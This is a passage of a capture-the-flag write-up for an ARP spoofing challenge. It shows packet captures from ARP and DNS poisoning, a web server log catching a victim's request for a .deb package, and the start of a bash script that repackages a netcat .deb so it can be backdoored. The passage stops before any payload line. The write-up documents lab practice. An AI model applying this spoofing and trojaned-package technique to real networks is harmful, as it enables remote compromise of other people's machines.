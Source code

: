 ```text
16:53:34.977453 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
16:53:34.997602 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:03, length 28
16:53:35.029864 IP 10.6.6.35.50215 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
16:53:35.062362 IP 10.6.6.53.53 > 10.6.6.35.50215: 0*- 2/0/0 A 10.6.0.3, A 10.6.0.3 (92)
16:53:35.067876 IP 10.6.0.3.52476 > 10.6.6.35.64352: Flags [S], seq 240645463, win 64240, options [mss 1460,sackOK,TS val 2437484659 ecr 0,nop,wscale 7], length 0
16:53:36.017388 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28

[ ... ]

16:53:36.102610 IP 10.6.6.35.55554 > 10.6.0.3.80: Flags [S], seq 4003720740, win 64240, options [mss 1460,sackOK,TS val 1978770089 ecr 0,nop,wscale 7], length 0
16:53:36.102645 IP 10.6.0.3.80 > 10.6.6.35.55554: Flags [R.], seq 0, ack 4003720741, win 0, length 0
```

A connection for TCP port 80 (amongst others). The other, new, non-port 80 traffic was TLS, but I think that may have been an artefact of other processes running on the target host? I don't know. Anyways, a port 80 connection implies a web request, so I fired up an http server using python, and re-ran the whole attack. This is where the DNS response script in a loop helped. I only had to run the ARP spoof manually.

{{< figure src="/images/holidayhack-20/arp_shenanigans_http_request.png" title="arp shenanigans http request after the DNS poison" >}}

In our simple web server, we can see a request for `/pub/jfrost/backdoor/suriv_amd64.deb`.

```text
guest@a85cc3252902:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [01/Jan/2021 16:59:38] code 404, message File not found
10.6.6.35 - - [01/Jan/2021 16:59:38] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
```

One of the hints on your badge would have helped with this part, which said:

> The malware on the host does an HTTP request for a .deb package. Maybe we can get command line access by sending it a [command in a customized .deb file](http://www.wannescolman.be/?p=98).

The article that was linked to pretty much clearly tells you what you need to do from here. Backdoor a `.deb` file (of which there were many in the `debs/` folder). Since the target host we had was downloading one we could do the backdoor, rename it to what they were downloading and hope they would execute our shell.

I won’t repeat what the article clearly states, but instead show the script I wrote to automate it given that it took a few tries to get right.

```bash
#!/bin/bash

set -e

DEB="netcat-traditional_1.10-41.1ubuntu1_amd64.deb"
TPATH="/tmp/packaging"

rm -Rf $TPATH
mkdir $TPATH
cd $TPATH

cp ~/debs/$DEB .
dpkg -x $DEB work
ar -x $DEB
tar xvf control.tar.xz ./control
tar xvf control.tar.xz ./postinst

mkdir work/DEBIAN

mv ./control work/DEBIAN/control
```